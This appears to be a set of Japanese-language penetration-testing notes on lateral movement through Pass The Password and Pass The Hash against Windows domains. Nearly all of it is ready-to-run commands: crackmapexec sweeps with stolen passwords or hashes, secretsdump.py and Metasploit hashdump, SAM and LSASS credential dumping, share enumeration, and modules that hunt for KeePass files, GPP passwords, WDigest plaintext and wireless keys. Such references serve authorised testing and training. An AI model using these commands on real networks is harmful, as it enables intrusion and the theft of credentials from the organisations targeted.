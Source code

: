
 

- すでに何かしらの認証情報でログインできた後に、横展開や権限昇格時に行うこと
# Pass The Password・Pass The Hash
- 両方とも同じで、認証情報を他のマシンで使い回すことを利用する攻撃手法

## Pass The Password
認証情報を取得したときに、その認証情報が他のマシンでも使われていることがある
- 認証情報とネットワーク範囲・ドメインを指定することで、一括ですでに手に入れた認証情報でログインできるマシンを洗いだせる
```sh
crackmapexec smb <ip/ネットワーク範囲> -u <user> -d <domain> -p <pass>
```

## Pass The Hash
PassThe Hashは、Pass The Passwordのハッシュ版

まず、取得した認証情報でハッシュをダンプする
```sh
secretsdump.py <domain>/<user>:<Password>@ターゲットマシンIP
```
Metasploit
```
use windows/smb/psexec
# meterpreter接続後
meterpreter > hashdump
```

Pass The Hash攻撃
- ネットワーク範囲で指定
```sh
crackmapexec smb <ip/ネットワーク範囲> -u <user> -d <domain> -H <取得したハッシュ>
```

攻撃例
![](https://i.imgur.com/oP8zP77.png)

そして、オプションをつけることで、crackmapexecからSAMに含まれているハッシュをダンプすることもできる
```sh
crackmapexec smb <ip/ネットワーク範囲> -u <user> -d <domain> -H <取得したハッシュ>　--local-auth --sam
```

LSASSに含まれている資格情報をダンプするコマンド
- mimikatzの主な攻撃対象
```sh
crackmapexec smb <ip/ネットワーク範囲> -u <user> -d <domain> -H <取得したハッシュ>　--local-auth -M lsassy
```

共有も列挙できる
```sh
crackmapexec smb <ip/ネットワーク範囲> -u <user> -d <domain> -H <取得したハッシュ> --local-auth --shares
```

- `crackmapexec smb -L` 
	- crackmapexecのモジュール一覧検索
	- Keepassファイルの探索
		- `-M keepass_discover`
	- GPPパスワードの探索
		- `-M gpp_password`
	- WDigest認証の設定を確認し、メモリに平文パスワードが残っているかを探る
		-  古い脆弱性プロトコル
		- Windows 7, 8, 2008 R2, Server 2012でデフォルトで使用されていた
		- ドメイン管理者がログインしていると、パスワードを平文で取得できる
		- `-M wdigest`
	- インターネットの認証情報とSSID
		- `-M wireless`
`cmedb`